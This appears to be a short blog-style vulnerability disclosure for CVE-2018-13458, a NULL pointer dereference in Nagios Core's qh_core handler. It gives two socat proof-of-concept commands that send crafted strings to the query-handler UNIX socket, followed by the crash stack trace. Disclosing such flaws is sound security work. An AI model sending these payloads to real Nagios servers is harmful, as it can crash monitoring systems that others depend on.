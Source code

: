 ```yaml
---
layout: post
title: "[CVE-2018-13458] Nagios Core qh_core NULL Pointer Dereference"
date: 2018-07-09
categories:
    - blog
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_core in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```shell
$ echo -ne “#core\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@core\0" | socat unix-connect:./poc/nagios.qh -

#0 0x5546bc in qh_core /home/user/nagioscore/base/query-handler.c:408:6
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f6887b9882f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
